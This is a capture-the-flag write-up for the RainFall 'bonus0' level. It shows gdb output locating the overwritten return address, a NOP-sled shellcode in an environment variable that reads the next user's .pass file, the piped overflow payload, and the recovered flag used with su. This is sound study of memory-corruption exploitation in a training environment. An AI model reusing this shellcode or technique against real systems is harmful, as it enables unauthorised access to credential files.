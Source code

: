 Here, we have almost the same thing as the first levels. The only difference is that the program awaits for 2 inputs on the stdin.
First, we find where we can abuse the buffer overflow :
By giving 20 chars on the first input, we see that bytes 9-12 are address of the segfault.

```bash


bonus0@RainFall:~$ gdb -q bonus
Reading symbols from /home/user/bonus0/bonus0...(no debugging symbols found)...done.
(gdb) run
Starting program: /home/user/bonus0/bonus0 
 - 
AAAAAAAAAAAAAAAAAAAA    
 - 
BBBBCCCCDDDDEEEEFFFFGGGGHHHHIIII
AAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFF��� BBBBCCCCDDDDEEEEFFFF���

Program received signal SIGSEGV, Segmentation fault.
0x45444444 in ?? ()
```

So we just need to put a shellcode that will print us the `/home/user/bonus1/.pass` in an environment variable as done previously and give the address to this variable and it will print the flag :

So first we export our shellcode :

```bash
bonus0@RainFall:~$ export SHELLCODE=`python -c 'print("\x90" * 30 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/user/bonus1/.pass")'`

```

Then we find the address of our shellcode :
```bash
bonus0@RainFall:~$ gdb -q bonus0 
Reading symbols from /home/user/bonus0/bonus0...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x80485a7
(gdb) r
Starting program: /home/user/bonus0/bonus0 

Breakpoint 1, 0x080485a7 in main ()
(gdb) x/100x *environ
0xbffff7b2:	0x505f434c	0x52455041	0x5f72663d	0x552e5246
0xbffff7c2:	0x382d4654	0x5f434c00	0x52444441	0x3d535345
0xbffff7d2:	0x465f7266	0x54552e52	0x00382d46	0x4d5f434c
0xbffff7e2:	0x54454e4f	0x3d595241	0x465f7266	0x54552e52
0xbffff7f2:	0x00382d46	0x4c454853	0x444f434c	0x90903d45
0xbffff802:	0x90909090	0x90909090	0x90909090	0x90909090
```

Here `0xbfff802`.
And then we feed the two desired inputs like so :

```bash
{ python -c 'print("A" * 20)'; python -c 'print("B" * 9 + 3 * "\x02\xf8\xff\xbf")'; } | ./bonus0
```

>bonus0@RainFall:~$ { python -c 'print("A" * 20)'; python -c 'print("B" * 9 + 3 * "\x02\xf8\xff\xbf")'; } | ./bonus0
>AAAAAAAAAAAAAAAAAAAABBBBBBBBB����������� BBBBBBBBB�����������
>cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```bash
su bonus1
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

